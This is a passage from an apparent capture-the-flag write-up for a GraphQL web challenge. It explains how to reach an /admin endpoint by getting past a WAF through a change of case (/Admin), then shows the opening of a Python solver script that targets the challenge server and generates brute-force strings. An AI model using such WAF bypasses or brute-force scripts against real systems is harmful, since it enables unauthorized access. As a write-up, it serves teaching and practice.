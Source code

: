 ![http_query_params_with_variables_and_alias.png](img/http_query_params_with_variables_and_alias.png)

Finally, to get the flag, we need to access `/admin` instead of the `/graphql` GraphQL endpoint, and this endpoint is also affected by the WAF.
However, we can bypass it by `/Admin`.

All we have to do is to script to automate.

## Solver

```python
import string
import requests
import itertools

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080"}

# BASE_URL = "http://localhost:7654"
BASE_URL = "http://34.84.220.22:7654"


def generate_strings():
    for size in itertools.count(1):
        for s in itertools.product(string.ascii_letters, repeat=size):
            yield "".join(s)
```